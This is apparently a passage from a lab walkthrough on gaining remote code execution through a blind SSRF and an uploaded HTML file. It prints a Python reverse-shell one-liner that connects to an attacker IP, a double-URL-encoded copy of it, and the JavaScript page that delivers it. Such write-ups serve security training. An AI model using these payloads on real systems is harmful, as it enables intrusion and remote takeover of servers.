





RCE with a local file (Reverse Shell with Python)
7. Luckly we have discovered a file (not from the request above)
 By studying the source code above,
we notice a functionality that allows us to execute commands on the remote host sending a GET request to /runme?x=<CMD>.
Let us confirm remote code execution by sending whoami as a command.
8. Bash reverse shell payload that use Python to spawn a shell.
export RHOST="<VPN/TUN IP>";export RPORT="<PORT>";python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")' 1) Change the parameter: RHOST and RPORT
 2) Url Encode the payload 2 times as we have done also in the chapter above with
urlencoder.org. We do that because we pass them through 2 different web applications.
export%2520RHOST%253D%252210.10.15.142%2522%253Bexport%2520RPORT%253D%25229091%2522%253Bpython%2520-c%2520%2527import%2520sys%252Csocket%252Cos%252Cpty%253Bs%253Dsocket.socket%2528%2529%253Bs.connect%2528%2528os.getenv%2528%2522RHOST%2522%2529%252Cint%2528os.getenv%2528%2522RPORT%2522%2529%2529%2529%2529%253B%255Bos.dup2%2528s.fileno%2528%2529%252Cfd%2529%2520for%2520fd%2520in%2520%25280%252C1%252C2%2529%255D%253Bpty.spawn%2528%2522%252Fbin%252Fsh%2522%2529%2527
3) Since we can upload an html file like in the chapter
Blind SSRF: File Upload PDF Converter <html>
<body>
<b>Reverse Shell via Blind SSRF</b>
<script>
var http = new XMLHttpRequest();
http.open("GET","http://internal.app.local/load?q=http::////127.0.0.1:5000/runme?x=export%2520RHOST%253D%252210.10.15.142%2522%253Bexport%2520RPORT%253D%25229091%2522%253Bpython%2520-c%2520%2527import%2520sys%252Csocket%252Cos%252Cpty%253Bs%253Dsocket.socket%2528%2529%253Bs.connect%2528%2528os.getenv%2528%2522RHOST%2522%2529%252Cint%2528os.getenv%2528%2522RPORT%2522%2529%2529%2529%2529%253B%255Bos.dup2%2528s.fileno%2528%2529%252Cfd%2529%2520for%2520fd%2520in%2520%25280%252C1%252C2%2529%255D%253Bpty.spawn%2528%2522%252Fbin%252Fsh%2522%2529%2527", true);
http.send();
http.onerror = function(){document.write('<a>Oops!</a>');}
</script>
</body>
</html>
4)Got the reverse shell
 